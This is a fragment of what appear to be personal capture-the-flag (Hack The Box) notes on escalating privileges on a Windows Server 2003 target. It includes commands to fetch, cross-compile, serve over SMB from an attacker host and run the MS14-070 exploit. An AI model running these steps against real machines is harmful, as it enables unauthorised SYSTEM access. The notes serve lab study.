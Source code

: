 got system.

![image-20220924213022784](./images/image-20220924213022784.png)



## System MS14-070

exploit with ms14-070, failed.  

exploit [reference](https://vk9-sec.com/microsoft-windows-server-2003-sp2-tcp-ip-ioctl-privilege-escalation-ms14-070-cve-2014-4076/)

```bash
searchsploit -m 37755
sudo apt install gcc-mingw-w64
i686-w64-mingw32-gcc-win32 37755.c -o exploit.exe -lws2_32

impacket-smbserver -smb2support share ./

copy \\10.10.14.15\share\exploit.exe exploit.exe

.\exploit.exe 
```

hanging; 不确定是否应为 bof exploit IIS 6  获取shell 问题 或者其他。查看 HTB 官方walkthrough 视频，msf 使用ms14_070)tcpip_ioctl 获取到system
